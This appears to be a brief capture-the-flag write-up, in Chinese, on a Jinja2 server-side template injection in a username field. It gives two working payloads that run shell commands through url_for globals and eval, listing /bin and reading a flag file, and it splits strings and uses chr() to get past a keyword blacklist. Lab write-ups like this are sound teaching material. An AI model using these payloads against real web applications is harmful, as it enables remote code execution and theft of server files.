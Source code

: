 ![[Pasted image 20250118114936.png]]

用户名这里SSTI
黑名单东西不少，藏flag，删了cat这些，ls看还有个more能用

```python
{{ url_for.__globals__['__builtins__']['eval']('" ".join(__import__("os").popen("ls " + chr(47) + "bin").read().split(chr(10)))') }}

{{ url_for.__globals__['__builtins__']['eval']('" ".join(__import__("os").popen("mo" + "re " + chr(47) + "fla" + "gf149").read().split(chr(10)))') }}
```